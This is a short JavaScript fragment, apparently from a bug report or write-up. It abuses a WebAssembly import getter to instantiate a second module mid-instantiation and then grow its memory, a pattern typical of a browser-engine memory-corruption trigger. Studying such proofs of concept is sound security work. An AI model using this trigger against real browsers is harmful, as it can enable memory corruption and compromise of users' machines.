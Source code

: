
var mod = WebAssembly.Module(raw_wasm);
var ffi = {
  mod: {
    get imp() {
      wasm2 = WebAssembly.Instance(mod, {mod: {imp: function(){}}});
      spacer = new ArrayBuffer(0x10000);
      return function() {};
    }
  }
};
wasm = WebAssembly.Instance(mod, ffi);
wasm2.exports.memory.grow(1);


